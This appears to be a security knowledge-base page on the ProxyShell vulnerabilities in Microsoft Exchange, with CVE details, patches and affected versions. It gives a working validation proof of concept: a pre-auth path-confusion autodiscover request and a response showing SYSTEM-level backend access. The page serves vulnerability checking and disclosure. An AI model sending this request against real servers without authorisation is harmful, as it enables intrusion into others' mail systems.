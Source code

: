 ```yaml
---
title : "CVE-2021-34473"
# pre : ' '
description : "ProxyShell, the name given to a collection of vulnerabilities for Microsoft Exchange servers, enables an actor to bypass authentication and execute code as a privileged user."
date : 2021-08-25T09:47:29+02:00
# hidden : true
# draft : true
weight : 0
# tags : ['']
---
```


## CVE-2021-34473 / CVE-2021-34523 / CVE-2021-31207 | ProxyShell

CVE-2021-34473
Pre-auth path confusion vulnerability to bypass access control
Patched in [KB5001779](https://support.microsoft.com/help/5001779), released in April

CVE-2021-34523
Privilege elevation vulnerability in the Exchange PowerShell backend
Patched in [KB5001779](https://support.microsoft.com/help/5001779), released in April

CVE-2021-31207
Post-auth remote code execution via arbitrary file write
Patched in [KB5003435](https://support.microsoft.com/help/5003435), released in May

This vulnerability affects:

* Exchange 2013 CU23 < 15.0.1497.15
* Exchange 2016 CU19 < 15.1.2176.12, Exchange 2016 CU20 < 15.1.2242.5
* Exchange 2019 CU8 < 15.2.792.13, Exchange 2019 CU9 < 15.2.858.9

## Examples

### Validating POC

```plain
https://<<ip>>/autodiscover/autodiscover.json?@foo.com/mapi/nspi/?&Email=autodiscover/autodiscover.json%3f@foo.com
```

```plain
GET /autodiscover/autodiscover.json?@foo.com/mapi/nspi/?&Email=autodiscover/autodiscover.json%3f@foo.com HTTP/1.1
Host: exch.offsec.nl
Accept-Charset: iso-8859-1,utf-8;q=0.9,*;q=0.1
Accept-Language: en
Connection: Close
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 5.1; Trident/4.0)
Pragma: no-cache
Accept: image/gif, image/x-xbitmap, image/jpeg, image/pjpeg, image/png, */*
```

```plain
HTTP/1.1 200 OK
Cache-Control: private
Content-Type: text/html
Server: Microsoft-IIS/8.5
request-id: af2ae0ee-6593-4523-8fa1-5d283d7ae3da
X-CalculatedBETarget: exch.offsec.nl
X-ServerApplication: Exchange/15.01.1913.012
X-DiagInfo: EXCH
X-BEServer: EXCH
X-AspNet-Version: 4.0.30319
Set-Cookie: X-BackEndCookie=; expires=Sun, 25-Aug-1991 07:43:18 GMT; path=/autodiscover; secure; HttpOnly
X-Powered-By: ASP.NET
X-FEServer: EXCH
Date: Wed, 25 Aug 2021 07:43:17 GMT
Connection: close
Content-Length: 522

<html>
<head>
<title>Exchange MAPI/HTTP Connectivity Endpoint</title>
</head>
<body>
<p>Exchange MAPI/HTTP Connectivity Endpoint<br><br>Version: 15.1.1913.12<br>Vdir Path: /mapi/nspi/<br><br></p><p><b>User:</b> NT AUTHORITY\SYSTEM<br><b>UPN:</b> <br><b>SID:</b> S-1-5-18<br><b>Organization:</b> <br><b>Authentication:</b> Negotiate<br><b>PUID:</b> <br><b>TenantGuid::</b> </p><br><p><b>Cafe:</b> exch.offsec.nl<br><b>Mailbox:</b> exch.offsec.nl</p><p><br><br><br><b>Created:</b> 25-8-2021 07:43:18</p></body></html>
```

## URL List

- [Zerodayinitiative.com - From Pwn2Own 2021: A New Attack Surface on Microsoft Exchange - ProxyShell!](https://www.zerodayinitiative.com/blog/2021/8/17/from-pwn2own-2021-a-new-attack-surface-on-microsoft-exchange-proxyshell)
- [News.sophos.com - ProxyShell vulnerabilities in Microsoft Exchange What to do](https://news.sophos.com/en-us/2021/08/23/proxyshell-vulnerabilities-in-microsoft-exchange-what-to-do/)
